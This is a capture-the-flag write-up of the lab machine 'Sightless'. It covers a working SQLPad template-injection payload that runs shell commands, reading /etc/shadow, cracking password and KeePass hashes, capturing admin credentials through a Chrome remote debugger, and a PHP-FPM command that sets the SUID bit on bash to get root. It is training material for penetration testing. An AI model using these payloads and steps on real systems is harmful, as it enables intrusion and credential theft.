# Sightless (not so easy)

## 1. Scanning

Let's do a normal scan with `-sV` for service version and `-sC` for default script scan.

<figure><img src="../../../../.gitbook/assets/image (337).png" alt=""><figcaption></figcaption></figure>

3 ports are open which are `FTP`, `HTTP`, and `SSH`. The ftp port doesn't allow Anonymous logins, we will need to take note of that

***

## 2. Fuzzing

I used `gobuster` to scan for directories

<pre><code><strong>❯ gobuster dir -u http://sightless.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt                     
</strong>===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) &#x26; Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sightless.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 178] [--> http://sightless.htb/images/]
/index.html           (Status: 200) [Size: 4993]
Progress: 4734 / 4735 (99.98%)
===============================================================
Finished
===============================================================
</code></pre>

Nothing out of the usual. Now, I proceed to check out the web page

<figure><img src="../../../../.gitbook/assets/image (338).png" alt=""><figcaption></figcaption></figure>

The SQLPad button there will redirect to a subdomain.&#x20;

<figure><img src="../../../../.gitbook/assets/image (339).png" alt=""><figcaption></figcaption></figure>

SQLpad is a web app for writing and running SQL queries and visualizing the results. I checked the version at the 'About' section at the top right corner button

<figure><img src="../../../../.gitbook/assets/image (340).png" alt=""><figcaption></figcaption></figure>

***

## 3. Gaining Access

Now, I searched up for some CVEs online and found one

{% embed url="https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944" %}

According to the Github repository and some articles, there is  a vulnerability that allows for Remote Code Execution (RCE) via the `/api/test-connection` endpoint. Apart from the exploit. Inputting the command below in the Database form field will also result in a RCE

<pre class="language-javascript"><code class="lang-javascript"><strong>{{ process.mainModule.require('child_process').exec('id>/tmp/pwn') }}
</strong></code></pre>

Running the exploit will return a JSON response and our listener will get a shell

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (343).png" alt=""><figcaption></figcaption></figure>

Firstly, this was quite odd because how was i suddenly root? I checked out the sqlite file and found some interesting users

<figure><img src="../../../../.gitbook/assets/image (344).png" alt=""><figcaption></figcaption></figure>

Then I found a `docker-entrypoint` beyond `/home` . This meant that I was in a docker jail or docker container if you may. The goal was to escape it and gain some arbitrary control. That was my initial thought and I tried running some test commands like `/etc/passwd`

<figure><img src="../../../../.gitbook/assets/image (345).png" alt=""><figcaption></figcaption></figure>

and I thought if this container is run as root I should be able to read `/etc/shadow.`&#x20;

<figure><img src="../../../../.gitbook/assets/image (346).png" alt=""><figcaption></figcaption></figure>

And there we go, can see there is a user michael. We can attempt to crack his hashed password.

<figure><img src="../../../../.gitbook/assets/image (347).png" alt=""><figcaption></figcaption></figure>

User flag secured

***

## 4. Privelege Escalation

We run Linpeas on the target machine

```
michael@sightless:~$ ls
linpeas.sh  user.txt
michael@sightless:~$ ./linpeas.sh 
```

<figure><img src="../../../../.gitbook/assets/image (348).png" alt=""><figcaption></figcaption></figure>

We can see there is a PE vector being highlighted it may be useful later. Keep digging through the Linpeas results

<figure><img src="../../../../.gitbook/assets/image (350).png" alt=""><figcaption></figcaption></figure>

Now, there are some interesting stuff going on here. These are ports being used for services on the local / target machine. Our priority will start with the port `8080` as it is a common HTTP services port often used for management dashboards or alternate web servers.

Now how do we access the web page of the target machine?

The answer is **Port forwarding**.

There are multiple ways but the easiest would be using `ssh` as we have user access to the machine

<pre><code><strong>❯ sudo ssh -L 8081:127.0.0.1:8080 michael@10.10.11.32
</strong></code></pre>

using the `-L` option we forward our 8081 local port to access the machine port 8080

After doing that, we are met with this page&#x20;

<figure><img src="../../../../.gitbook/assets/image (351).png" alt=""><figcaption></figcaption></figure>

I also scratched my head here a few minutes. Then I decided to look at the Linpeas result again and found this

<figure><img src="../../../../.gitbook/assets/image (352).png" alt=""><figcaption></figcaption></figure>

It indicates that the port has a subdomain attached to it. We need to add this line to `/etc/hosts.`

```
127.0.0.1    admin.sightless.htb
```

And then, we  need to port forward the subdomain

<pre><code><strong>❯ ssh -L 8082:admin.sightless.htb:8080 michael@10.10.11.32
</strong></code></pre>

After doing that, we are able to access the login page.

<figure><img src="../../../../.gitbook/assets/image (353).png" alt=""><figcaption></figcaption></figure>

Now, I got stuck here for a while and then remembered the Linpeas result scan that highlighted a PE vector which was `--remote-debugging-port` and tried to google about it. Found this [cheatsheet](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/) about Chrome Remote Debugger Pentesting

<figure><img src="../../../../.gitbook/assets/image (354).png" alt=""><figcaption></figcaption></figure>

The highlighted PE vector also had a port 0 assigned to it, meaning the remote port is accessed dynamically and always changing and not static.

Okay so meaning, we have to look back at the available ports in Linpeas as it is one of them. By filtering the ports according to known services like FTP, MYSQL, Node.js and etc. We should end up with 3 available ports. Need to try one by one and port forward them.

&#x20;For me it was port 37319

<pre><code><strong>❯ sudo ssh -L 37319:127.0.0.1:37319 michael@10.10.11.32
</strong></code></pre>

After setting the configure option there, these two remote targets will appear dynamically

<figure><img src="../../../../.gitbook/assets/image (355).png" alt=""><figcaption></figcaption></figure>

Choosing 'inspect' will let you see the 'bot' logging in and the credentials will be visible in the payload

<figure><img src="../../../../.gitbook/assets/image (357).png" alt=""><figcaption></figcaption></figure>

`admin:ForlorfroxAdmin`

<figure><img src="../../../../.gitbook/assets/image (358).png" alt=""><figcaption></figcaption></figure>

***

## 5. Rabbit Hole

I checked for the available customers and there was 1

<figure><img src="../../../../.gitbook/assets/image (359).png" alt=""><figcaption></figcaption></figure>

There is an FTP account related to the username 'web1' and we can edit the configurations of it including the password

<figure><img src="../../../../.gitbook/assets/image (360).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (361).png" alt=""><figcaption></figcaption></figure>

Now we can login into the ftp account using `ftp-ssl` because it has a SSL/TLS encryption setup

<figure><img src="../../../../.gitbook/assets/image (362).png" alt=""><figcaption></figcaption></figure>

In the FTP server has a Keepass extension file, which is a type of database file

<figure><img src="../../../../.gitbook/assets/image (364).png" alt=""><figcaption></figcaption></figure>

I try to crack it using Hashcat

<pre><code><strong>❯ keepass2john Database.kdb | grep -o "$keepass$.*" > Databasekeepass.hash
</strong></code></pre>

<pre><code><strong>❯ hashcat -a 0 -m 13400 -o cracked_output.txt --outfile-format 2 Databasekeepass.hash rockyou.txt
</strong></code></pre>

<figure><img src="../../../../.gitbook/assets/image (365).png" alt=""><figcaption></figcaption></figure>

I opened the database file using `keepassxc` and got scammed :D

<figure><img src="../../../../.gitbook/assets/image (366).png" alt=""><figcaption></figcaption></figure>

FYI, these credentials does not work. Its a rabbit hole. I was flabbergasted, disappointed, you name it.

***

## 6. Intended Solution

I went back to the Froxlor service page and tried to play with some settings. I received a nudge that it had something to do with the PHP-FPM. So, I googled for publicly available CVEs but none of them was working.

And I received another nudge (couldn't do this without hints), that it can execute commands at the restart command

<figure><img src="../../../../.gitbook/assets/image (367).png" alt=""><figcaption></figcaption></figure>

So in here, I tried inserting a revshell but it was filtered. But we can do something even better like changing the SUID permission of bash(`/usr/bin/bash`) because it is owned by root.

`chmod 4755 /usr/bin/bash`

This allows any a user to drop into a root shell

<figure><img src="../../../../.gitbook/assets/image (368).png" alt=""><figcaption></figcaption></figure>

Save it and Restart the PHP-FPM settings

<figure><img src="../../../../.gitbook/assets/image (369).png" alt=""><figcaption></figcaption></figure>

We need to wait around 1 minute for the command to be executed because a cronjob is set to execute every 1 minute to generate the configfiles meaning it executes the PHP-FPM restart command

<figure><img src="../../../../.gitbook/assets/image (370).png" alt=""><figcaption></figcaption></figure>

Then, in the terminal run `bash` with the `privileged` mode to drop into the root shell

```
/bin/bash -p
```

<figure><img src="../../../../.gitbook/assets/image (371).png" alt=""><figcaption></figcaption></figure>
